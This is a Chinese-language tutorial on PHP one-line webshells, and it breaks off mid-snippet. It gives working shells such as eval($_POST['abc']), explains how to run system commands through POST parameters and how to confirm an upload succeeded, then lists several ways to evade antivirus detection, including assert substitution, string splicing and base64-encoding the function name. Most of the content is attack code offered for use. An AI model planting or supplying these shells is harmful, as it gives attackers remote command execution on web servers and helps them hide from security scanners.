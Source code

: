 ### 一、一句话木马

#### 1、一句话木马

```php
<?php
eval("echo 'haha';")	// 将会输出haha,eval的作用就是把里面的语句当做php代码执行
>

<?php
eval("ipconfig");
system("dir")	// system可以把包裹起来的东西当做系统命令来执行
>
        
<?php
$a = exec("mkdir haha");	// exec一定要有东西去接它。
echo $a;
>
```

```php
// 把post进来的abc参数的值当做php代码执行
<?php eval($_POST['abc']); >
// 在POSt里输入:abc=system('dir');
```

###### 一般测试，输出phpinfo()，如果成功，则一句话木马成功；

###### 大多数情况下测试上传文件都用 <?php phpinfo(); ?> 测试，就能证明成功

#### 2、一句话木马免杀

##### （1）杀毒软件可能会对eval函数免杀

```php
<?php assert($_POST['abc']); ?>
    
// 也可以
<?php
$a = substr_replace("assexx", "rt", 4);
$a($_POST['abc']);
?>

<?php
function haha($a){
    $a($_POST['abc']);
}

haha(assert);
?>
    
<?php
$a = $_REQUEST['abc'];
$b = "\n";
eval($b.=$a)
?>
    
<?php
$a = base64_decode("YXNzZXJ0");	// 就是assert的base64编码
$a($_POST['a']);
?>
    
    
<?php
$a = "a"."s";
$b = "s"."s"."e"."r"."t";
```